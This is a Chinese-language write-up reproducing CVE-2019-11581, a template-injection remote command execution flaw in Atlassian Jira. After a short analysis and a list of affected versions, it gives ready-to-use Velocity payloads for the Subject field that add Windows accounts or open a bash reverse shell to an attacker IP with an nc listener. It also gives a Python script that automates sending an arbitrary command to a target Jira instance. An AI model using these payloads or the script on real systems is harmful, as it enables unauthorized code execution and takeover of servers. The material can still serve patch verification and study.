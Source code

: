 # CVE-2019-11581 Atlassian Jira 远程命令执行漏洞

## 一、漏洞简介

此漏洞由于Atlassian Jira中的Atlassian Jira Server和Jira Data Center模块存在模板注入，当”联系管理员表单“功能开启时，攻击者可以在表单插入java恶意代码,当服务端对传入数据进行解析时,会执行数据中插入的恶意代码,并执行其中的命令。攻击者通过这种方式可以实现远程代码执行漏洞的利用，获取服务器的敏感信息泄露，甚至可以利用此漏洞进一步对服务器数据进行修改，增加，删除等操作，对服务器造成巨大的影响。

## 二、漏洞影响

* Atlassian Jira 4.4.x
* Atlassian Jira 5.x.x
* Atlassian Jira 6.x.x
* Atlassian Jira 7.0.x
* Atlassian Jira 7.1.x
* Atlassian Jira 7.2.x
* Atlassian Jira 7.3.x
* Atlassian Jira 7.4.x
* Atlassian Jira 7.5.x
* Atlassian Jira 7.6.x < 7.6.14
* Atlassian Jira 7.7.x
* Atlassian Jira 7.8.x
* Atlassian Jira 7.9.x
* Atlassian Jira 7.10.x
* Atlassian Jira 7.11.x
* Atlassian Jira 7.12.x
* Atlassian Jira 7.13.x < 7.13.5
* Atlassian Jira 8.0.x < 8.0.3
* Atlassian Jira 8.1.x < 8.1.2
* Atlassian Jira 8.2.x < 8.2.3

## 三、复现过程

**漏洞分析**

1.利用前提条件：

第一种，未授权代码执行利用条件：Jira已配置好SMTP服务器，且需开启“联系网站管理员表单”功能。（从WEB界面设计上看，实际上如果没配置SMTP服务器，无法开启此功能

第二种利用场景前提是拿到Jira管理员的权限，利用条件较难满足，这里主要分析第一种情况。原因在于`atlassian-jira/WEB-INF/classes/com/atlassian/jira/web/action/user/ContactAdministrators` 未对Subject（邮件主题）处进行过滤，用户传入的邮件主题被当作template（模板）指令执行。在任何一种情况下，成功利用此漏洞的攻击者都可在运行受影响版本的Jira Server或Jira Data Center的系统上执行任意命令。

2.以下两种url漏洞验证方式：

第一种无需管理员账户权限：`http://url:8080/secure/ContactAdministrators!default.jspa`

![](images/15889438971091.png)


第二种需管理员账户权限：`http://url:8080/secure/admin/SendBulkMail!default.jspa`

![](images/15889439127903.png)


## 漏洞复现

**1.漏洞利用条件**

联系管理员处必须开启 （需要知道后台管理员账号密码）

**2.环境准备：**

Atlassian JIRAv7.13.0 (以该版本为例，该版本存在漏洞)下载地址：

https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe

安装过程不再描述（按照提示进行安装，先在官方注册一个账号然后拿到一个试用期序列号并进行安装），注意，到了邮件配置那一步经尽量选以后(默认就是)，然后进入后台配置。

**3.确认未登陆状态下漏洞的存在**

访问如下URL（无需管理员账户权限）：

`http://url:8080/secure/ContactAdministrators!default.jspa`

如果提示如下图，这说明没有配置联系管理员是无法触发漏洞。

![](images/15889439382686.png)


请登陆后台开启联系管理员，配置地址如下：

`http://url:8080/secure/admin/EditApplicationProperties!default.jspa`

默认是关闭的，需要配置了STMP发信后才能开启，配置STMP的时候可以测试连接，服务器必须开25端口，不然不能发邮件，下图是开启成功

![](images/15889439497071.png)


**4.未登陆状态下触发漏洞**

访问

`http://url:8080/secure/ContactAdministrators!default.jspa`

![](images/15889439628478.png)



在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。


```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor()
```


![](images/15889439764554.png)


发送了后可能会等一会儿，因为要加入邮件队列。这时候再上服务器执行net user查看，发现正是刚刚执行命令添加的账户。

![](images/15889439863660.png)


**5.登陆管理员账号触发漏洞**

登陆管理员账号，然后访问如下URL：

`http://url:8080/secure/admin/SendBulkMail!default.jspa`

填入payload，如下，注意执行命令添加账号的账户名


```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk01 abc@ABC123 /add').waitFor()
```

![](images/15889440263166.png)


![](images/15889440310346.png)


linux下可执行：

目标Jira系统可执行的POC


```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl http://www.baidu.com').waitFor()
```


```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('bash -i >& /dev/tcp/攻击者IP/2333 0>&1').waitFor()
```

攻击者主机执行:nc -lvvp 2333

poc

scan


```python
#/usr/bin/python
# -*- coding: utf8 -*-

# 
# the program intents to automate the process of exploiting CVE-2019-11581 During our engagments - quick and dirty
# I will probably will add features to make it more easy.
# Ths is some skeleton and probably things will not work on first run


# Importing
import requests
import sys
import argparse
from bs4 import BeautifulSoup
import cmd

parser = argparse.ArgumentParser()
parser.add_argument("domain", help="JIRA Instance")
parser.add_argument("cmd", help="Command to run")
args = parser.parse_args()

#Some Debugging Globals
http_proxy  = "http://127.0.0.1:8080"
https_proxy = "https://127.0.0.1:8080"
ftp_proxy   = "ftp://127.0.0.1:8080"
#Proxy Dictionary
proxyDict = { 
              "http"  : http_proxy, 
              "https" : https_proxy
            }
headers = {'UserAgent':'Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0'}


def JiraScan(domain,cmd):
    #Filtering host
    domain = domain + '/secure/ContactAdministrators!default.jspa'
    #Checking if host is vulnerable by checking if specific string is present
    s = requests.Session()
    r = s.get(domain, proxies=proxyDict, verify=False)
    html_doc = r.content
    soup = BeautifulSoup(html_doc, 'lxml')
    
    notvuln = soup.findAll("div",{"class":"aui-message aui-message-warning warningd"})
    if notvuln:
        print "[-] Not Vulnerable"
    else:
        print "[+] Checking if Vulnerable"
        #In order to have valid request we need to handle JIRA CSRF Tokens
        #Extracting atl_token from form
        html_doc = r.content
        soup = BeautifulSoup(html_doc, 'lxml')
        data = soup.findAll(attrs={"name" : "atl_token"})
        print data
        #Returning Token value
        token = data[0]['value']
        print token
        #Replacing path
        domain= domain.replace('!default.jspa','.jspa')
        # body of post request
         #(),'subject':"",'details':",'atl_token': value,'Send':'Send'}
        payload = "$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('%s').waitFor()" % cmd
        qparams = (('from','JIRA@JIRA.com'),('subject',payload),('details',payload),('atl_token',token),('Send','Send'))
        
        #Final Payload
        attack = s.post(domain, headers = headers, data = qparams, proxies=proxyDict, verify=False)

if __name__ == '__main__':
    JiraScan(args.domain,args.cmd)
```

参考链接

https://www.cnblogs.com/backlion/p/11608439.html